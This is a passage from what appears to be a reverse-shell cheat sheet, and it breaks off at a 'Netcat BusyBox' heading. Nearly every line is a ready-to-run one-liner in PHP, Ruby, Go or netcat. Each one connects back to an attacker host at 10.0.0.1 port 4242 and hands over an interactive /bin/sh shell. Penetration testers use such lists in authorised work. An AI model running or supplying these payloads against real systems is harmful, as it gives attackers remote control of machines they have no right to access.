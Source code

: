 ### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.0.0.1","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'

NOTE: Windows only
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Golang

```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Netcat Traditional

```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

### Netcat OpenBsd

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Netcat BusyBox
